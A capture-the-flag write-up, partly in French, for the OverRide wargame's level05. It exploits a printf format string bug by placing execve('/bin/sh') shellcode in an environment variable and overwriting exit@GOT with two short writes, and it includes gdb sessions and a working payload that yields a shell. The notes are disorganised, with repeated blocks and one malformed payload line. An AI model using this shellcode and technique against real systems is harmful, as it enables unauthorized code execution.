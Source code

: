 # level05

We can see that program takes an input and XOR each byte with 32 if it is between 'A' and 'Z'. It is a `toLower` like function:

```gdb
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048472 in main ()
(gdb) c
Continuing.
AAAAAAAAAAA

Breakpoint 2, 0x08048500 in main ()
(gdb) x/s $esp+0x28
0xffffd668:      'a' <repeats 11 times>, "\n"
```

Then, it pass the result string in `printf` as the only argument.

We try to found the direct access parameter:

```bash
level05@OverRide:~$ (python -c "print 'aaaa' + '%p ' * 30";cat) | ./level05  
aaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070  
```

Our string is printed at the 10th parameter.

We put our shellcode in an environment variable and find its address:

```bash
export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
```

```gdb
(gdb) x/s *((char **)environ+0)
0xffffd74a:      "EXPLOIT=\220\220\220"...


(gdb)  p/d 0xffffd74a+200
$1 = 4294957074
(gdb)  p/d 0xffffd702+200
$2 = 4294957002

(gdb) p/x 0xffffd74a+200  
$3 = 0xffffd812
(gdb) p/x 0xffffd702+200
$4 = 0xffffd7ca

(gdb) p/d 0xd812  
$4 = 55314  
(gdb) p/d 0xd812-8  
$5 = 55306  
  
gdb-peda$ p/d 0xffff  
$5 = 65535  
(gdb) p/d 0xffff-55314  
$6 = 10221  
```
  
Nous pouvons voir que notre string 'aaaa' apparait au printf access parameter numero 10  
  
```bash
export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")  

(gdb) x/s *((char **)environ+0)  
0xffffd74a:      "EXPLOIT=<...>"  
  
adresse exploit: 0xffffd74a  
(gdb) p/d 0xffffd74a+200  
$1 = 4294957074  
  
(gdb) p/x 0xffffd74a+200  
$2 = 0xffffd812  
(gdb) x/s 0xffffd812  
  
We get exit function address:

```gdb
(gdb) info function exit  
All functions matching regular expression "exit":  
  
Non-debugging symbols:  
0x08048370  exit  
0x08048370  exit@plt  
...
(gdb) disas 0x08048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
  
(gdb) r <<<$(python -c "print '\xe0\x97\x04\x08' + %4294957070\$x + '%10\$n'")
0x0804847a in main ()
(gdb) x/wx $esp
0xffffd690:     0xffffd6b8
(gdb) x/5wx 0xffffd6b8
0xffffd6b8:     0x080497e0      0x39323425      0x37353934      0x24303730
0xffffd6c8:     0x00000a6e
Breakpoint 2, 0x08048507 in main ()
(gdb) x/5wx 0xffffd6b8
0xffffd6b8:     0x080497e0      0x39323425      0x37353934      0x24303730
0xffffd6c8:     0x00000a6e
```  

Nous pouvons voir que les bytes que nous avons rentrer dans le fgets() ne sont pas modifier, mais que nous n'avons pas jump sur notre shellcode
  
Nous pouvons voir sur ce document, que les valeurs des int pris en compte par printf ont une limite :  
https://cs155.stanford.edu/papers/formatstring-1.2.pdf  
  
Comme a sa section 4.1 (Short write), nous allons passer notre adresse en deux fois afin de ne pas depasser cette limite. 
  
```bash
(gdb) p/d 0xd812  
$4 = 55314  
(gdb) p/d 0xd812-8  
$5 = 55306  
  
gdb-peda$ p/d 0xffff  
$5 = 65535  
(gdb) p/d 0xffff-55314  
$6 = 10221  
  
```

=> 0x08048475 <+49>:    call   0x8048350 <fgets@plt> ; Size == 100  
(gdb) x/wx $esp  
0xffffd470:     0xffffd498  
(gdb) x/s 0xffffd498  
0xffffd498:      ""  
  
(gdb) r <<<$(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%.55306u%10\$hn' + '%.10221u%11\$hn'")  
=> 0x08048507 <+195>:   call   0x8048340 <printf@plt>
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:     push   0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) disas 0x80497e0
Dump of assembler code for function exit@got.plt:
   0x080497e0 <+0>:     jbe    0x8049765 <_DYNAMIC+105>
   0x080497e2 <+2>:     add    al,0x8
End of assembler dump.

=> 0x0804850c <+200>:   mov    DWORD PTR [esp],0x0
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:     push   0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) disas 0x80497e0
Dump of assembler code for function exit@got.plt:
   0x080497e0 <+0>:     adc    bl,al
   0x080497e2 <+2>:     (bad)  
   0x080497e3 <+3>:     jmp    DWORD PTR [eax]
End of assembler dump.
  
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%.55306u%10$hn" + "%.10221u%11$hn")'; cat) | ./level05  
<...>  
whoami  
level06  
